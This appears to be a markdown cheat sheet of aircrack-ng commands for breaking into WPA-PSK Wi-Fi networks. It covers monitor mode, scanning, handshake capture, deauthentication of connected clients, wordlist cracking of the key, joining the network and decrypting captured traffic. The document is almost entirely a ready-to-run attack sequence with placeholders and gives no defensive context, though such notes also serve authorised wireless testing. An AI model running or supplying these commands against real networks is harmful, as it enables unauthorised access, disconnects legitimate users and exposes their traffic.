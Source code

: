 ### Setup 

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```


### Identify the network

Identify the network by launching an airodump scan:
```bash
sudo airodump-ng wlan0mon
sudo airodump-ng wlan0mon --wps
sudo airodump-ng wlan0mon --band abg --wps --manufacturer
```


### Gather handshake

Use the gathered channel and BSSID to dump the handshake specifically for the AP. Write this output to a cap file.
```bash
sudo airodump-ng -c <channel> -w wpa-handshake --essid <ESSID> --bssid <BSSID> wlan0mon -w /tmp/handshake
```

Launch a deauthentication attack to get the handshake for the AP. The MAC used is that of the AP:
```bash
sudo aireplay-ng -0 0 -a <BSSID> -c <MAC> wlan0mon
sudo aireplay-ng -0 1 -a <BSSID> -c <MAC> wlan0mon
# Try without specifying MAC:
sudo aireplay-ng -0 0 -a <BSSID> wlan0mon
```
>[!info]
>Sometimes only deauthenticating once is better: `-0 1`


### Crack handshake

The key can be successfully cracked using a wordlist like rockyou.txt:
```bash
aircrack-ng -w /usr/share/john/password.lst wpa-handshake-01.cap
aircrack-ng -w /home/user/Downloads/rockyou.txt wpa-handshake-01.cap
```
>[!info]
>Other wordlist: `/usr/share/john/password.lst`


### Connect to the network

Start the NetworkManager service:
```bash
sudo service NetworkManager start
```

Set the interface up:
```bash
sudo ifconfig wlan1 up
```

Create the configuration file to connect to the network: `connect.config`
```bash
network={
  ssid="<ESSID>"
  scan_ssid=1
  psk="<PASSWORD>"
  key_mgmt=WPA-PSK
}
```

Use the configuration file to connect to the network:
```bash
sudo wpa_supplicant -i wlan1 -c connect.config
```

Obtain DHCP address:
```bash
sudo dhclient wlan1
```


### Capture & decrypt traffic

Decrypt traffic:
```bash
airdecap-ng -b <BSSID> -e <ESSID> -p <PASSWORD> /tmp/<file>.cap
```

Open the decrypted file in wireshark:
```bash
wireshark /tmp/<file>-dec.cap
```
